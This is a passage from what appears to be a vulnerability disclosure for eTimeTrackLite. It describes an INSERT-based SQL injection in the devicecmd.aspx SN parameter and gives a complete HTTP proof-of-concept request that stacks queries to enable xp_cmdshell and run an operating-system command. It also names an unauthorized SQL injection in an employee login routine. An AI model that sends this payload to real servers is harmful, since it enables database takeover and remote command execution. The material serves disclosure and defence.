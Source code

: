 Here is insert injection, and if you want to make the conversion error, you need multiple lines of content. Here you can construct the following POC

```http
POST /devicecmd.aspx?SN=222','x','x','2025-05-16+14:35');EXEC+sp_configure+'show+advanced+options',+1;RECONFIGURE;EXEC+sp_configure+'xp_cmdshell',+1;RECONFIGURE;EXEC+xp_cmdshell+'cmd+/c+calc';/* HTTP/1.1
Host: 192.168.1.222:83
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

a
*/
```

![image-20250516141638338](eTimeTrackLite/image-20250516141638338.png)

### GetEmployeeLoginDetails Unauthorized SQL Injection

EmployeeLogin.Btn_Ok_Click(object, EventArgs) : void @06000387

Call EmployeeManagement.GetEmployeeLoginDetails
